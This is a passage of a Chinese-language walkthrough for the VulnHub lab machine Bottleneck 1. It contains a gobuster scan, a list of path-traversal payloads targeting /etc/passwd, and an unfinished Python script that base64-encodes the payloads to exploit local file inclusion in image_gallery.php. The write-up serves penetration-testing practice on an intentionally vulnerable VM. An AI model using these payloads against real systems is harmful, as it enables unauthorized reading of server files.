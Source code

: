 ![][5]

`gobuster`扫描

```
gobuster dir -u http://192.168.1.9 -s 200,301,302 -t 50 -w /usr/share/seclists/Discovery/Web-Content/big.txt -x .php,.txt,.html,.zip
```

![][6]

## 0x01 LFI 漏洞初利用失败

### 猜测漏洞利用位置

主页的源码没有什么特别的，那就访问这个很明显有问题的`image_gallery.php`

![][7]

可以看到里面的图片模板有两个参数`t`和`f`

多次刷新访问，发现前面的`t`值过一段时间就会发生变化，后面的像`base64`加密的值一直没有变化

于是先尝试`base64`解密后面的值：

![][8]

得到一个图片名，加上`img`目录访问如下：

![][9]

后面的`f`值已经确定是引用的图片了，那前面的很有可能就是时间戳

由此我们猜想可以伪造时间戳，利用`LFI`本地文件包含漏洞读取其他文件的值

### 编写 LFI 漏洞利用脚本

于是我们尝试构造几个想要访问的`payload`，如下:

```
bottleneck_dontbe.png
/etc/passwd/
../../../etc/passwd/
../../../../etc/passwd/
../../../../../etc/passwd/
```

存储为`payloads.txt`，在同目录下编写一个`python`脚本如下：

```
import base64
import re

import requests

url = "http://192.168.1.9/image_gallery.php"
r = requests.get(url)
response = r.text
t = re.findall(r't=(.*?)&f', response)[0]
# Get timestamp
for line in open("payloads.txt").read().splitlines():
    word = line.strip("\r").strip("\n")
    payload = base64.b64encode(word.encode("utf-8"))
    try:
        params = {'t': t, 'f': payload}
        r1 = requests.get(url, params=params)
        print(r1.request.url)
        print('---------------response begin-----------------')
```

[1]: https://www.vulnhub.com/entry/bottleneck-1,374/
[2]: https://soapffz.com/427.html
[3]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_200649.png
[4]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_200527.png
[5]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201035.png
[6]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201138.png
[7]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201713.png
[8]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201746.png
[9]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_201939.png
[10]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200115_205021.png
[11]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_193531.png
[12]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_194854.png
[13]: https://www.secpulse.com/archives/75491.html
[14]: https://intx0x80.blogspot.com/2017/05/python-input-vulnerability_25.html
[15]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_195221.png
[16]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_200012.png
[17]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_202403.png
[18]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_203027.png
[19]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_204015.png
[20]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_204125.png
[21]: https://github.com/jivoi/pentest/blob/master/shell/rootshell.c
[22]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200116_211656.png
[23]: https://img.soapffz.com/archives_img/2020/01/15/archives_20200117_210048.png
[24]: https://ischizo.com/write-up-bottleneck-1-vulnhub/
[25]: https://mp.weixin.qq.com/s/skCNWPiEPgJcHXSmsif5qQ